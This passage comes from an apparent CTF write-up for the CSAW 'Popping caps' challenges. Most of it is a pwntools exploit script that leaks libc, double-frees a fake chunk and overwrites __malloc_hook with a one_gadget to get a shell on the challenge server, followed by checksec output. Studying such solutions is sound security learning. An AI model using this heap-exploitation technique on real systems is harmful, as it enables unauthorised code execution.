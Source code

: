 ```
  r.recvuntil("Your choice:")
  r.sendline('4')

def interactive():
  if not online:
    print( """/usr/bin/gdb -q  {0} {1}""".format( r.argv[0], r.pid ) )
  r.interactive()

def exploit(k_now):
  r.recvuntil("Here is system ")
  system_free=int(r.recvline(),16)
  log.info("System addr :0x{0:x}".format(system_free))
  libc_addr = system_free - 0x4f440
  log.info("Libc addr :0x{0:x}".format( libc_addr))
  free_hook = libc_addr + libcz.symbols['__free_hook']
  log.info("__free_hook addr :0x{0:x}".format( free_hook))
  malloc_hook = libc_addr + libcz.symbols['__malloc_hook']
  log.info("__malloc_hook addr :0x{0:x}".format( malloc_hook) )
  #fake_chunk = ( libc_addr + 0x3f1000 + 0x1f5428 + 0x8 ) #note error in remote.. we need ld_preload libc given 
  fake_chunk = (libc_addr + 0x3f1000 + k_now + 0x8 )
  
  print("k_now: 0x{0:x} with fake chunk: 0x{1:x}".format(k_now, fake_chunk ))
  log.info(" Fake chunk addr :0x{0:x}".format( fake_chunk) )
  one_gadget = libc_addr + 0x10a38c

  free( fake_chunk ) #7
  free( fake_chunk ) #6
  malloc( 0x90 -8 )  #5
  write( p64(malloc_hook)) #4
  malloc( 0x90 -8) #3
  malloc( 0x90 -8) #2
  write( p64( one_gadget) ) #1
  r.interactive()
  return True 


k_now = 0x10  #right value 0x1
condition_stop = False
while not condition_stop:
  r = remote("pwn.chal.csaw.io", 1001)
  condition_stop=exploit( (k_now  << 12) + 0x428 )
  r.close()
  k_now += 1
  time.sleep(0.4)
  
print("[+] Done!")
```



### Popping caps 2
```
pwndbg> checksec 
[*] '/tmp/cctf/popping_caps'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
